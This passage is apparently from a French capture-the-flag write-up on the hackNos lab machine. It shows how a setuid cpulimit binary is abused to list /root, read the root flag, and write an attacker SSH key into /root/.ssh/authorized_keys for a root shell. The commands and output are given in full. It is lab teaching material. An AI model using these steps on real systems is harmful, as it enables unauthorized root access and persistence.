 Effectivement l'effective UID est root, ce qui est propre aux binaires setuid mais l'exécutable n'appelant pas ensuite les fonctions setuid/setgid on ne pourra pas obtenir un shell avec les accès que l'on souhaite.  

On peut toutefois profiter de cet effective UID pour passer les restrictions sur les fichiers :  

```plain
$ cpulimit -l 50 -- ls -al /root
total 56
drwx------  8 root root 4096 Dec 14  2019 .
drwxr-xr-x 20 root root 4096 Dec 10  2019 ..
-rw-------  1 root root  162 Dec 14  2019 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwx------  2 root root 4096 Dec 13  2019 .cache
drwxr-xr-x  3 root root 4096 Dec 13  2019 .composer
drwx------  3 root root 4096 Dec 13  2019 .gnupg
drwxr-xr-x  3 root root 4096 Dec 13  2019 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwx------  2 root root 4096 Dec 10  2019 .ssh
-rw-------  1 root root 6581 Dec 13  2019 .viminfo
-rw-r--r--  1 root root  547 Dec 13  2019 root.txt
drwxr-xr-x  3 root root 4096 Dec 10  2019 snap
Process 13629 detected
```

On peut ainsi récupérer le flag *root.txt* :  

```plain
########    #####     #####   ########         ########  
##     ##  ##   ##   ##   ##     ##            ##     ## 
##     ## ##     ## ##     ##    ##            ##     ## 
########  ##     ## ##     ##    ##            ########  
##   ##   ##     ## ##     ##    ##            ##   ##   
##    ##   ##   ##   ##   ##     ##            ##    ##  
##     ##   #####     #####      ##    ####### ##     ##

MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Blog: www.hackNos.com

Linkedin: https://in.linkedin.com/in/rahulgehlaut
```

Et si vraiment on souhaite avoir un shell root on passera une fois de plus par le fichier *authorized\_keys* :  

```bash
echo "ssh-rsa --ma-cle-publique-ssh--" > authorized_keys
cpulimit -l 50 -- mkdir /root/.ssh
cpulimit -l 50 -- cp authorized_keys /root/.ssh/
```

Finalement :  

```bash
ssh root@192.168.2.10
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
Last login: Sat Dec 14 00:21:20 2019
root@hacknos:~# id
uid=0(root) gid=0(root) groups=0(root)
```


*Published November 24 2021 at 18 04*